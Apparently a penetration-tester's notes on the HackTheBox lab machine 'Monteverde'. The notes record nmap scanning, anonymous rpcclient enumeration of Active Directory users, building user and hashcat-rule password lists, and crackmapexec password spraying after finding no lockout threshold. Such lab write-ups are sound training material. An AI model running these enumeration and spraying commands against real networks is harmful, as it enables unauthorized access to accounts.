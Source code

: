 #Enumeration #nmap 

`sudo nmap -sC -sV -oA nmap/monteverde 10.10.10.172`
`-sC for default scripts`
`-sV for enumerate all versions`
`-oA output all formats`

![[Pasted image 20241218215532.png]]
Domain is MEGABANK.LOCAL
Clock skew -48mins

Clocks need to be synced if we end up needing to forge tickets (tgt or tgs)

DNS Enumeration with #nslookup but kind of weird results and no info. 

![[Pasted image 20241218215923.png]]
Enumerating #rpcclient 

`rpcclient -U '' 10.10.10.172` and authenticated anonymously

![[Pasted image 20241218220103.png]]
Enumerate users with `enumdomusers`

![[Pasted image 20241218220148.png]]
Some rpc commands available on ippsec.rocks as well

![[Pasted image 20241218220331.png]]

https://ippsec.rocks/?#

Run `querydispinfo` to dump active directory info

![[Pasted image 20241218220610.png]]
Building a wordlist of found users like in [[Forest]]

`vim users.lst`

`6x` to delete first six characters 

![[Pasted image 20241218220950.png]]
Interesting user AAD_987d7 this is an active directory ADSync thing to sync passwords between Azure and OnPrem

Running #crackmapexec 

`crackmapexec -u users.lst -p users.txt`

Create quick password list using #hashcat

`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule > password.lst`

Check the password policy 
`crackmapexec smb 10.10.10.172 --pass-pol`

![[Pasted image 20241219203015.png]]
Account lockout threshold: none 

